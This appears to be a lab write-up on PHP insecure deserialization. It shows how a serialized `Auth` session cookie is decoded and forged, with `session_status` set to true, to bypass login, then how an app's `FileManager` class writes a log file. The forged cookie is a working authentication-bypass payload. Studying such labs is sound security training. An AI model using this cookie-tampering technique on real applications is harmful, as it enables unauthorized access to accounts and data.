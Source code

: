 The application checks user authentication using cookies that store serialized session objects. If the session does not exist or is not authenticated, a new session is created and serialized into the cookie. The `FileManager` class manages session logs and cleans up temporary files when destroyed.

So, if you verify the cookies in the browser you can see that the value is 

```php
"session": O%3A4%3A%22Auth%22%3A3%3A%7Bs%3A4%3A%22user%22%3Bs%3A5%3A%22guest%22%3Bs%3A4%3A%22role%22%3Bs%3A5%3A%22guest%22%3Bs%3A14%3A%22session_status%22%3Bb%3A0%3B%7D
```

If you use an urldecode you can see the serialized parameters of the object.

```php
O:4:"Auth":3:{s:4:"user";s:5:"guest";s:4:"role";s:5:"guest";s:14:"session_status";b:0;}
```

So to bypass the requisition, you can do this:

```php
O:4:"Auth":3:{s:4:"user";s:5:"guest";s:4:"role";s:5:"guest";s:14:"session_status";b:1;}
```

And then url encoded it

```php
O%3A4%3A%22Auth%22%3A3%3A%7Bs%3A4%3A%22user%22%3Bs%3A5%3A%22guest%22%3Bs%3A4%3A%22role%22%3Bs%3A5%3A%22guest%22%3Bs%3A14%3A%22session_status%22%3Bb%3A1%3B%7D
```

So this will trigger the function

```php
    if($session->isAuth()) {
        echo "está autenticado";
    }
```

But, if we instance the file manager.

**index.php**

```php
    if($session->isAuth()) {
        echo "está autenticado";
        echo "<br>";

        $fileManager = new FileManager();
        $fileManager->putlog("Sessão iniciada no File Manager!");
        $log = $fileManager->readLog();
        echo $log;
    } 
```

So after enter in the page with the session cookie, we can that that he created an file and then he deletes it.

```php
┌──(kali㉿kali)-[~/…/eWPTX/serialization/insegura/tmp]
└─$ ls -la 
total 12
drwxr-xr-x 2 kali kali 4096 Jul 25 15:52 .
drwxr-xr-x 5 kali kali 4096 Jul 25 15:18 ..
-rw-r--r-- 1 kali kali   33 Jul 25 15:52 log.txt
                                                                                                                                                                               
┌──(kali㉿kali)-[~/…/eWPTX/serialization/insegura/tmp]
└─$ cat log.txt  
Sessão iniciada no File Manager!                                                                                                                                                                               
```
